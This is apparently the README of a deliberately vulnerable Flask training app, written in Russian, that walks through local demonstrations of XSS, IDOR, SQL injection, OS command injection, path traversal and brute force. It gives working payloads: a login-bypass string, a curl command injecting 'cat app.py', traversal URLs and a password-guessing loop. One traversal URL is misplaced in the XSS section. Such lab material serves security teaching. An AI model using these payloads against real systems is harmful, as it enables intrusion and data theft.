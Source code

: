 # VVery-Bad-flask-app

### Уязвимый веб-сайт, написанный на Flask

Данный сайт иллюстрирует несколько распространенных уязвимостей:

a. XSS
b. IDOR
c. SQLI
d. OS command injection
e. Path Traversal
f. Brute force

На сайте представлены страницы, соответстсвующие перечисленным уязвимостям. Также, если "дополнительные" проблемы, типа использования слабых алгоритмов хэширования или хранение захардкоженных кредов. 
В базе данных используется две table для иллюстрации уязвимотсей: users и books.
#### Запуск

Выполняем следующие команды: 

```
mkdir -p temp
flask --app app run
```

По дефолту сайт запускается на 127.0.0.1:5000
#### XSS

Страница предоставляет поиск по базе данных, содержащей различные книги. Чтобы воспроизвести уязвимость вносим в поле поиска: 
http://127.0.0.1:5000/pathtraversalimg?img=../../app.py
```
<script>alert("e he he")</script>
```

#### IDOR 

На странице представлены логин и пароль, по которым можно "войти" в систему. 
Как только мы успешно входим, можно увидеть, что у нас появились пользовательские cookies - user_id и session_token. 

Можно догадаться, что user_id соответсвует порядковый номер (индекс) пользователя в базе данных. Меняем user_id на число 1 или 3, перезагружаем страницу и получаем аккаунт другого пользователя, пропуская шаги валидации пароля. 

#### SQLI

Попробуем ввести рандомный пароль, а в поле "Имя пользователя":

```
admin' OR '1'='1
```

После чего успешно "входим" в систему.

#### OS command injection

Запустим следующий curl-запрос: 

```
curl -g 'http://127.0.0.1:5000/os?hostname=8.8.8.8%20-c%203%20|%20cat%20app.py'
```

Видим, что команда исполняется на сервере, где хостится веб-сайт и получаем исходный код. Вместо исходного кода, можем выполнять любые другие команды на сервере. 

#### Path Traversal

Исследуя страницу, видим, что картинка с котом загружается следюущим образом: 
http://127.0.0.1:5000/pathtraversalimg?img=../../app.py
```
http://127.0.0.1:5000/pathtraversalimg?img=666.jpg
```

Попробуем "погулять" по серверу: 

```
http://127.0.0.1:5000/pathtraversalimg?img=../../app.py
```

#### Brute Force

Создадим скрипт:

```
file=./pass.txt  
ip=127.0.0.1:5000/bruteforce  
  
while read -r line; do  
	echo $line  
	curl $ip -d "username=admin&password=$line" -v 2>&1 | grep "200 OK"  
done < "$file"
```
Запускаем скрипт, который подбирает пароль к администраторской учетной записи. Можно самостоятельно создать pass.txt или заменить его на любые готовые словари. 

Hint: пароль будет admin 
